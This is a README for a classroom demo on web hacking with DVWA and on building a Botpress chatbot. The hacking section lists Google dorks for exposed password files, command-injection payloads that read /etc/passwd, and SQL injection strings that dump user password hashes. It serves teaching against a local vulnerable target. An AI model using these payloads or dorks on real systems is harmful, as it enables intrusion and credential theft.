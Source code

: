 # EAT-Demo
NSCC Demo for École acadienne de Truro

# École acadienne de Truro Live Demo | Bienvenue

If needed run the [Setup](setup.md)

## Part 1 | Web Hacking
### Security Intro (Obligitory Boring Stuff)  (10 Min)
* Ethical Hacking
  * Always get permission
  * Hacking is just applied Skills/Knowledge (Creatively!)
* Staying Safe
  * Stong Passwords \
    https://haveibeenpwned.com/
  * Multi-Factor
  * Always update

### Step 1 | Recon (15 Min)
* [Google Dorking](https://github.com/chr3st5an/Google-Dorking) Demo
    1. `allintext: "DVWA" "username" "password"`
    2. `allintext:"DVWA" filetype:pdf`
    3. `allintext: "password" "1234" filetype:csv`
* Identify a Target
  * We'll just create our own!
    * `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
    * Just Browsing http://localhost
    * Click **Login** and then click **Create/Reset Database**. 


### Step 2 | Attack (20Min)
* Browser based attacks
    1. Command Injection \
    `127.0.0.1; ls -la /` \
    `127.0.0.1 ; cat /etc/passwd | tee /tmp/passwd`
    2. SQL Injection \
    `1' OR '1'='1'#` \
    `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
* Advanced Attacks (Automation Demo) \
  * Password Brute Force
    * Let's use brute.py
    * We'll specify our target. (Line 53)
    * We need to know usernames (line 48)
    * We need a dictionary of common passwords. (line 113) \
    `./brute.py`



## Part 2 | Generative AI - DYI ChatBot

### What is AI? (More Obligitory Boring Stuff) (5 Min)
 * How does AI learn?
 * How can we control it?
   * Data Sets
   * decision Trees
   * HardCoded!

### Botpress Demo (30 Min)
* Creating a simple Flow
* Set up a variable
* Load some data
* Add some Guardrails!
* Build your own! We Need:
  1. Some data.
  2. A custom greeting!
  3. A Question?

### Try Our Bot!
[EAT Demo Bot](https://mediafiles.botpress.cloud/b9264ebf-53a7-4eea-a507-06b0dabf1ad1/webchat/bot.html)


